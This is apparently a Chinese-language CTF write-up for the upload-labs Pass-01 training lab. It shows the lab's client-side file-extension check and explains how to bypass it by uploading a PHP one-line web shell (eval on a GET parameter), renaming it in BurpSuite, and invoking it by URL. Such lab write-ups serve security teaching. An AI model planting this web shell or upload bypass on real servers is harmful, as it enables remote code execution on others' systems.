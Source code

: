 ## [[upload-labs](https://github.com/c0ny1/upload-labs)] [[Pass-01](http://127.0.0.1/Pass-01/index.php)] [[解题报告](http://exp-blog.com/2019/05/26/pid-3827/)]

------

## 题目

```php
function checkFile() {
    var file = document.getElementsByName('upload_file')[0].value;
    if (file == null || file == "") {
        alert("请选择要上传的文件!");
        return false;
    }
    //定义允许上传的文件类型
    var allow_ext = ".jpg|.png|.gif";
    //提取上传文件的类型
    var ext_name = file.substring(file.lastIndexOf("."));
    //判断上传文件类型是否允许上传
    if (allow_ext.indexOf(ext_name + "|") == -1) {
        var errMsg = "该文件不允许上传，请上传" + allow_ext + "类型的文件,当前文件类型为：" + ext_name;
        alert(errMsg);
        return false;
    }
}
```

------

## 解题

从源码很明显可以知道，代码只对上传的文件名后缀做检验，因此可以 **从客户端绕过** 。

伪造一个图片文件，文件名为 `payload.png` ，内容为 PHP 的一句话木马 ：

```php
<?php eval(@$_GET['exp']); ?>
```

上传此文件后，因为文件后缀为 `.png` ，所以即使打开图片也无法解析 PHP 代码。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/upload-labs/Pass-01/imgs/01.png)

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/upload-labs/Pass-01/imgs/02.png)


要绕过其实很简单，只需要用 BurpSuite 拦截上传文件的 POST 请求，然后修改 POST 内容中的文件名，把 `payload.png` 修改成 `payload.php` （注意 `Content-Type` 要确保为图片类型）。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/upload-labs/Pass-01/imgs/03.png)

上传成功后，访问改名后的 `payload.php` 文件，并利用一句话木马执行 `phpinfo();` 命令：

```html
http://upload.labs/upload/payload.php?exp=phpinfo();
```

解析 `phpinfo();` 命令成功，完成挑战。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/upload-labs/Pass-01/imgs/04.png)

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
